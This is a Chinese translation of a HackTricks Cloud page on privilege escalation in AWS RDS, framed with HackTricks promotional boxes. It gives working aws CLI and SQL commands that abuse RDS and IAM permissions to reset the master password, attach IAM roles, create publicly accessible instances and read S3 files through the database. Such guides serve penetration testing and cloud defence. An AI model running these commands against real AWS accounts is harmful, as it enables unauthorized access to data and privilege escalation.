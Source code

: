 # AWS - RDS提权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## RDS - 关系型数据库服务

有关RDS的更多信息，请查看：

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有此权限的攻击者可以**修改主用户的密码**以及数据库内的登录信息：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**联系数据库**（它们通常只能从内部网络访问）。
{% endhint %}

**潜在影响：** 在数据库中找到敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，拥有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql（Aurora）

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**，找到一个名为**`rdsadmin`**的数据库，您就知道自己在**AWS postgresql数据库**内。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他AWS服务。您可以通过查看已安装的扩展来进行检查：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 这样的内容，你可以假设这个数据库对 S3 有**某种访问权限**（还有其他扩展，比如 **`aws_ml`** 和 **`aws_lambda`**）。

另外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在字段 **`AssociatedRoles`** 中看到是否有**附加的 IAM 角色**与该**集群**相关联。如果有的话，你可以假设该数据库已经**准备好访问其他 AWS 服务**。根据**角色的名称**（或者如果你可以获取**角色的权限**），你可以**猜测**数据库具有哪些额外的访问权限。

现在，要**读取存储桶中的文件**，你需要知道完整的路径。你可以使用以下命令读取：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果您拥有**原始的AWS凭据**，您也可以使用它们来访问S3数据：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **无需更改任何参数组变量**即可访问S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在mysql中，如果运行查询**`SELECT User, Host FROM mysql.user;`**并且存在名为**`rdsadmin`**的用户，则可以假定您在**AWS RDS mysql数据库**中。
{% endhint %}

在mysql中运行**`show variables;`**，如果变量如**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`**等具有值，则可以假定数据库已准备好访问S3数据。

此外，如果您有权限运行**`aws rds describe-db-clusters`**，您可以检查集群是否有任何**关联角色**，这通常意味着可以访问AWS服务。

现在，要**读取存储桶中的文件**，您需要知道完整路径。您可以使用以下命令读取：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有`rds:AddRoleToDBCluster`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问RDS实例中的敏感数据或未经授权地修改数据。\
请注意，一些数据库需要额外的配置，比如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者就可以在已经存在并附加了IAM角色的**集群内创建新实例**。他将无法更改主用户密码，但可能会将新数据库实例暴露在互联网上：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有`rds:CreateDBInstance`和`iam:PassRole`权限的攻击者可以**创建一个附加指定角色的新RDS实例**。攻击者随后可能**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置文件的一些要求（来自[**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html))：

* 该配置文件必须存在于您的账户中。
* 该配置文件必须具有Amazon EC2有权限承担的IAM角色。
* 实例配置文件名称和关联的IAM角色名称必须以前缀`AWSRDSCustom`开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或对数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有`rds:AddRoleToDBInstance`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
此操作需要DB实例不在集群中
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问 RDS 实例中的敏感数据或未经授权修改数据。

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) 上**关注**我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
